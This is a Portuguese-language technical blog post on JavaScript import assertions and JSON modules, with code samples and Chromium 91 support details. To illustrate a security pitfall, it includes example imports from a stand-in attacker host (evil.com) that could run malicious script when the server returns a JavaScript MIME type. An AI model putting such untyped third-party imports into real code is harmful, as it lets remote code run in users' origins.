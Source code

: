 ```yaml
---
title: &apos;Declarações de importação&apos;
author: &apos;Dan Clark ([@dandclark1](https://twitter.com/dandclark1)), importador assertivo de declarações de importação&apos;
avatars:
  - &apos;dan-clark&apos;
date: 2021-06-15
tags:
  - ECMAScript
description: &apos;As declarações de importação permitem que instruções de importação de módulos incluam informações adicionais junto ao especificador do módulo&apos;
tweet: &apos;&apos;
---
```


O novo recurso de [declarações de importação](https://github.com/tc39/proposal-import-assertions) permite que instruções de importação de módulos incluam informações adicionais junto ao especificador do módulo. Um uso inicial para o recurso é permitir que documentos JSON sejam importados como [módulos JSON](https://github.com/tc39/proposal-json-modules):

<!--truncate-->
```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
import json from &apos;./foo.json&apos; assert { type: &apos;json&apos; };
console.log(json.answer); // 42
```

## Contexto: Módulos JSON e tipo MIME

Uma pergunta natural é por que um módulo JSON não poderia simplesmente ser importado assim:

```javascript
import json from &apos;./foo.json&apos;;
```

A plataforma web verifica o tipo MIME de um recurso de módulo para validade antes de executá-lo, e em teoria esse tipo MIME também poderia ser usado para determinar se o recurso deve ser tratado como um módulo JSON ou como um módulo JavaScript.

No entanto, há um [problema de segurança](https://github.com/w3c/webcomponents/issues/839) com confiar apenas no tipo MIME.

Os módulos podem ser importados entre origens, e um desenvolvedor pode querer importar um módulo JSON de uma fonte de terceiros. Isso pode parecer basicamente seguro, mesmo de terceiros não confiáveis, desde que o JSON seja devidamente sanitizado, pois importar JSON não executa script.

No entanto, scripts de terceiros podem de fato ser executados nesse cenário porque o servidor de terceiros pode inesperadamente responder com um tipo MIME JavaScript e uma carga maliciosa de JavaScript, executando código no domínio do importador.

```javascript
// Executa JS se evil.com responder com um
// tipo MIME de JavaScript (por exemplo, `text/javascript`)!
import data from &apos;https://evil.com/data.json&apos;;
```

As extensões de arquivo não podem ser usadas para determinar o tipo do módulo porque [não são um indicador confiável do tipo de conteúdo na web](https://github.com/tc39/proposal-import-assertions/blob/master/content-type-vs-file-extension.md). Em vez disso, usamos declarações de importação para indicar o tipo esperado do módulo e evitar essa armadilha de escalonamento de privilégios.

Quando um desenvolvedor quer importar um módulo JSON, ele deve usar uma declaração de importação para especificar que deve ser JSON. A importação falhará se o tipo MIME recebido da rede não corresponder ao tipo esperado:

```javascript
// Falha se evil.com responder com um tipo MIME que não seja JSON.
import data from &apos;https://evil.com/data.json&apos; assert { type: &apos;json&apos; };
```

## `import()` dinâmico

As declarações de importação também podem ser passadas para [`import()` dinâmico](https://v8.dev/features/dynamic-import#dynamic) com um novo segundo parâmetro:

```json
// foo.json
{ "answer": 42 }
```

```javascript
// main.mjs
const jsonModule = await import(&apos;./foo.json&apos;, {
  assert: { type: &apos;json&apos; }
});
console.log(jsonModule.default.answer); // 42
```

O conteúdo JSON é a exportação padrão do módulo, então ele é referenciado através da propriedade `default` no objeto retornado de `import()`.

## Conclusão

Atualmente, o único uso especificado de declarações de importação é para especificar o tipo de módulo. No entanto, o recurso foi projetado para permitir pares arbitrários de chave/valor nas declarações, então usos adicionais podem ser adicionados no futuro, caso seja útil restringir importações de módulos de outras maneiras.

Enquanto isso, módulos JSON com a nova sintaxe de declarações de importação estão disponíveis por padrão no Chromium 91. [Scripts de módulo CSS](https://chromestatus.com/feature/5948572598009856) também estão chegando em breve, usando a mesma sintaxe de declaração do tipo de módulo.

## Suporte a declarações de importação

<feature-support chrome="91 https://chromestatus.com/feature/5765269513306112"
                 firefox="no"
                 safari="no"
                 nodejs="no"
                 babel="yes https://github.com/babel/babel/pull/12139"></feature-support>
